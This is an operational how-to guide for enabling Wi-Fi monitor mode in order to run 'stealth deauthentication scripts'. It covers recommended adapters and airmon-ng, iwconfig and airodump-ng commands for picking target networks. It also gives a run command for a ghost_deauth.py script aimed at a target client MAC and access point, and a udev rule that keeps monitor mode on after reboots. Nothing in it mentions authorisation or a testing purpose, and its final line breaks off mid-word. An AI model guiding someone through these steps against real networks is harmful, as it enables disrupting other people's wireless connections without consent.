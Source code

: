 ### Setting Up Monitor Mode for Wi-Fi Deployments

To effectively use the stealth deauthentication scripts, you need a wireless interface in monitor mode. Here's a comprehensive guide:
1. Prerequisites

    Linux system (Kali Linux recommended)

    Compatible wireless adapter (see below)

    Root privileges (sudo su)

Recommended Wireless Adapters
Chipset	Model Examples	Monitor Mode Support
Atheros AR9271	Alfa AWUS036NHA	Excellent
RTL8812AU	Alfa AWUS036ACH	Excellent (5GHz)
RTL8814AU	Alfa AWUS1900	Excellent
Intel AX200	Internal laptop WiFi	Limited (needs patches)
2. Putting Your Interface in Monitor Mode
Method 1: Using airmon-ng (Recommended)
bash

# Check available interfaces
sudo airmon-ng

# Kill conflicting processes
sudo airmon-ng check kill

# Enable monitor mode (replace wlan0 with your interface)
sudo airmon-ng start wlan0

# Verify
iwconfig

→ Look for "Mode:Monitor" in the output.
Method 2: Manual Mode Switching
bash

# Bring interface down
sudo ifconfig wlan0 down

# Change mode
sudo iwconfig wlan0 mode monitor

# Bring back up
sudo ifconfig wlan0 up

# Verify
iwconfig wlan0 | grep Mode

3. Channel Selection

Monitor mode works best on specific channels:
bash

# Scan for networks to target
sudo airodump-ng wlan0mon

# Lock to a specific channel (e.g., channel 6)
sudo iwconfig wlan0mon channel 6

# For channel hopping (advanced):
sudo airodump-ng --channel 1,6,11 wlan0mon

4. Running the Deauth Script
bash

# With monitor interface (wlan0mon)
sudo python3 ghost_deauth.py -t TARGET_MAC -a AP_MAC -i wlan0mon

# Example:
sudo python3 ghost_deauth.py -t 11:22:33:44:55:66 -a AA:BB:CC:DD:EE:FF -i wlan0mon -c 0

5. Optional: Persistent Monitor Mode

To avoid re-enabling after reboots:
bash

# Create udev rule
echo 'SUBSYSTEM=="net", ACTION=="add", ATTRS{idVendor}=="0cf3", ATTRS{idProduct}=="9271", RUN+="/usr/sbin/iwconfig wlan0 mode monitor"' | sudo tee /etc/udev/rules.d/80-wifi-monitor.rules

# Reload rules
sudo udevadm control --reload

6. Troubleshooting

Issue: "Interface doesn't support monitor mode"

    Solution: Use a compatible adapter (see table above)

Issue: "Operation not permitted"

    Solution: Run with sudo and ensure no network managers are running (sudo systemctl stop NetworkManager)

Issue: Poor signal reception

    Solution: Use an external antenna (Alfa adapters work best)

7. Cleaning Up
bash

# Return to managed mode
sudo airmon-ng stop wlan0mon

# Restart network services
sudo systemctl start NetworkManage
